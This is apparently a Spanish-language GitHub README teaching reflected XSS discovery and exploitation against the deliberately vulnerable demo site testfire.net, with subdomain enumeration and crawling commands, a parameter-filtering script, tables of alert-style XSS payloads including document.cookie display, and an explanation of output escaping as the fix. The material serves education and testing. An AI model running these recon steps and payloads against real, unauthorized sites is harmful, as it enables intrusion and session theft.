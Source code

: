 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_toke] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener toekn github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<!-- TOC END -->
    <td valign="top" colspan="3" class="bb">
				<div class="fl" style="width: 99%;">
				<h1>Search Results</h1>
				<p>No results were found for the query:<br /><br />
				<script>alert(document.location)</script>
				</div>    
    </td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*

